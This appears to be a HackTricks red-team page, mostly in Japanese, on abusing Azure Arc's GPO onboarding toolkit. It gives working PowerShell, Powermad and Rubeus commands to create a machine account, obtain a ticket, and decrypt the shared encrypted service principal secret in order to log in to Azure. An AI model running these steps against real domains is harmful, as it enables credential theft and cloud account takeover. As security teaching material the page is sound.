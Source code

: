 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arcは、グループポリシーオブジェクトメソッドを使用して、新しい内部サーバー（ドメイン参加サーバー）をAzure Arcに統合することを可能にします。これを促進するために、Microsoftはオンボーディング手順を開始するために必要なデプロイメントツールキットを提供しています。ArcEnableServerGroupPolicy.zipファイル内には、次のスクリプトが含まれています：DeployGPO.ps1、EnableAzureArc.ps1、およびAzureArcDeployment.psm1。

DeployGPO.ps1スクリプトを実行すると、次のアクションが実行されます：

1. ローカルドメイン内にAzure ArcサーバーオンボーディングGPOを作成します。
2. オンボーディングプロセスのために作成された指定されたネットワーク共有にEnableAzureArc.ps1オンボーディングスクリプトをコピーします。この共有には、Windowsインストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は2つの主要なパラメータを提供する必要があります：**ServicePrincipalId**と**ServicePrincipalClientSecret**。さらに、ドメイン、共有をホストするサーバーのFQDN、および共有名などの他のパラメータも必要です。テナントID、リソースグループ、およびスクリプトに提供する必要のあるその他の情報も必要です。

暗号化されたシークレットは、指定された共有のAzureArcDeployディレクトリ内にDPAPI-NG暗号化を使用して生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecretという名前のファイルに保存されます。これに関する証拠は、DeployGPO.ps1スクリプト内に見られ、暗号化は$descriptorと$ServicePrincipalSecretを入力としてProtectBase64を呼び出すことによって行われます。ディスクリプタは、ドメインコンピュータおよびドメインコントローラグループのSIDで構成されており、ServicePrincipalSecretはドメインコントローラおよびドメインコンピュータのセキュリティグループによってのみ復号化できることが、スクリプトのコメントに記載されています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

次の条件があります：

1. 内部ネットワークに成功裏に侵入しました。
2. Active Directory内でコンピュータアカウントを作成または制御する能力があります。
3. AzureArcDeployディレクトリを含むネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法は、脆弱なACLやさまざまな他の誤設定を通じてマシンアカウントを侵害することです。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してパス・ザ・チケットを利用することができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
メモリにコンピュータアカウントのTGTを保存することで、次のスクリプトを使用してサービスプリンシパルの秘密を復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

この時点で、暗号化されたServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービスプリンシパルとして認証できます。

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
